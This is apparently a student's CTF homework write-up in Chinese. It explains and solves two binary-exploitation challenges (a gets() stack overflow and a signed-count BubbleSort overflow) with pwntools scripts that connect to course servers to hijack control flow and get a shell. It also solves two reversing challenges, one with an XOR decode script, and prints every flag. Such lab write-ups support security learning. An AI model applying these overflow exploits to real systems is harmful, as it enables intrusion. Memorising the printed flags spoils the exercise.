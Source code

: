 hw0
===

## pwn1

```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE (0x400000)
RWX:      Has RWX segments
```

### concept

objdump 後發現 main 裡面是 gets 讀取輸入，沒有檢查長度所以有 buffer overflow 的漏洞，可以利用漏洞跳到 callme 函數即可拿到 shell

![](https://i.imgur.com/fm7FiID.png)

使用 gdb 測出 ret addr offset 為 40

![](https://i.imgur.com/EDz6A6i.png)

### exploit

```python
#!/usr/bin/env python

from pwn import *

r = remote("csie.ctf.tw", 10120)

addr = 0x0000000000400566

r.sendline('a' * 40 + p64(addr))
r.interactive()
```

### flag

```FLAG{BuFFer_0V3Rflow_is_too_easy}```

## BubbleSort

```
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
```

### concept

objdump 後讀懂程式邏輯後發現 BubbleSort 中直接將 al 當作 sort 的個數

![](https://i.imgur.com/dZ8zdMd.png)

而原先輸入 sort 個數的值就是存在 eax 中，不過他有判斷 sort 個數不能超過 array 長度，但是可以輸入負數使得 al 的值超過 array 長度，導致 sort 超過 array 範圍，如此即可修改 ret addr 跳到 DarkSoul 函數獲得 shell

![](https://i.imgur.com/GEyVjvP.png)

![](https://i.imgur.com/8T6ikNv.png)

### exploit

將 127 格全部填滿 DarkSoul 的 addr，接著只要 sort 後 ret addr 為 DarkSoul addr 就成功，測試一下發現 -1 就可以了

不直接算 ret addr offset 的原因是因為其中的殘值與 DarkSoul addr 大小關係不確定，不一定直接 sort 127 + offset 的大小就能成功

```python
#!/usr/bin/env python

from pwn import *

r = remote("csie.ctf.tw", 10121)

addr = '0x08048580'

r.recvuntil(':')
r.sendline('127')
r.recvuntil(':')
r.sendline('{} '.format(str(int(addr, 16))) * 127)
r.recvuntil(':')
r.sendline('-1')
r.interactive()
```

### flag

```FLAG{Bubble_sort_is_too_slow_and_this_question_is_too_easy}```

## ret222

[待補]

## rev1

### concept

objdump 後發現有一個 print_flag 函數

![](https://i.imgur.com/oxlrRbp.png)

直接使用 gdb 跳過去就會印出 flag 了

![](https://i.imgur.com/0WMcQsp.png)


### flag

```FLAG{_reverse_is_fun}```

## rev2

### concept

使用 IDA 反組譯後可以發現他將輸入每 byte 與 0xcc 做 xor 後和一個特定字串 (unk_4120BC) 比較，若相同輸入即為 flag

![](https://i.imgur.com/tXyz9qb.png)

unk_4120BC 內容

![](https://i.imgur.com/KFouQeu.png)

利用 xor 的特性可知將 unk_4120BC 每 byte xor 0xcc 即可還原出 flag

### exploit

```python
#!/usr/bin/python3

flag = [0x8A, 0x80, 0x8D, 0x8B, 0xB7, 0x94, 0xFC, 0xBE, 0x93, 0xB8, 0xA3,
        0x93, 0x8F, 0xBE, 0xF8, 0xAF, 0xA7, 0x93, 0x81, 0xFF, 0xB1]

for i in flag:
    print(chr(i ^ 0xcc), end='')
```

### flag

```FLAG{X0r_to_Cr4ck_M3}```
